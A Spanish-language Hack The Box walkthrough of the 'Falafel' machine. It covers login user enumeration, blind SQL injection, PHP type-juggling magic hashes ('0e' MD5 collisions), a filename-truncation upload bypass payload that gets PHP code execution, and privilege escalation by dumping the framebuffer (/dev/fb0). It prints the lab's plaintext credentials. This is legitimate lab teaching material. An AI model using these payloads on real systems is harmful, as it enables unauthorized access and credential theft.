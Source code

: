 # Falafel-htb

## NMAP 

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ffd07a22-4230-406d-b6bc-02d705ac03d7)


En el puerto 80 se encuentra un portal con un login si intentamos ingresar datos para ver como se comporta nos damos cuenta que existe el usuario admin e incluso se pueden enumerar usuarios.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/00e9573b-abce-4d5e-a3ae-91c80a12df17)

Tambien nos damos cuenta que el portal es vulnerable sql injection. Se puede usar este mensaje para una blind SQLI.


```

```

## PHP Juggling 

Una vez que sacamos el hash del usuario admin probamos esta vulnerabiidad. Esta vulnerabilida se proboca por no usar tres = en una comparacion entonces cosas que no son iguales al compararlas mal si son iguales por ejemplo:

```
  $ echo -n 240610708 | md5sum
    0e462097431906509019562988736854  -
    $ echo -n QNKCDZO | md5sum
    0e830400451993494058024219903391  -
    $ echo -n aabg7XSs | md5sum
    0e087386482136013740957780965295  -
```

El hash osea la contraseña del usuario admin empieza con 0e  entonces buscamos una colicion que empiece con 0e php se va a equivocar y nos va a tomar cualquiera de las contraeeñas de arriba como una contraseña valida una vez que el usuario ingrese la contraseña y este se hashee.

## RCE

El limite de tamaño de nombre de un archivo en Linux es 255 y siempre que tengas wget e visto que puede tener este tipo de vulnerabilidades. entonces lo qu ehace es que corta el nombre del archivo a los 232 bytes mas 4 osea apartir del 232 puedes poner el .php y para pasar la proteccion de solo subir imagenes pues pones .php.jpg.


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/efcfecac-9ce4-4d31-aa2e-e67f2d465d67)


```
http://10.10.15.72/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.JPG
```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/46fbdf73-385b-4c98-9f74-1a2ab7bf714d)


Para saber los limites utilice la herramienta para exploit de metasploit.

```
# Primero esta
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255

# Y para saber el offset donde se corta esta

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 255 -q h7Ah 
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/d2497383-dfbb-475a-ad47-456496dc1a54)


## Priv escalation 

Ya una vez dentro revisamos los datos de la conexion a la base de datos y nos da la contraseña del usuario moshe

```

moshe

falafelIsReallyTasty

```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/8043397d-6b3d-4466-9e2a-3c8041039ef4)

Como este usuario pertenece al grupo video

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/5d9214dc-7bfa-431b-be9d-433fd4d1e9b2)

Es posible que puedan tomar capturas de pantalla. Usamos el w para ver que usuario esta loggeado

```
w
```
El archivo para sacar una captura de pantalla la pasamos a nuestro equipo y la abrimos como RAW se prueban varios formatos RAw y la abrimos con un editor tipo adobe photoshop pero de linux llamdo gimp

```
cat /dev/fb0 > out
gimp
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ea171245-8c8f-41d0-94f9-53bb35927cda)


Para que nos muestre las coordenadas correctas se tiene que sacar el size:

```
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

COn lo cual ya tenemos ahora las credenciales del usuario yossi:

```

yossi

MoshePlzStopHackingMe!

```








































































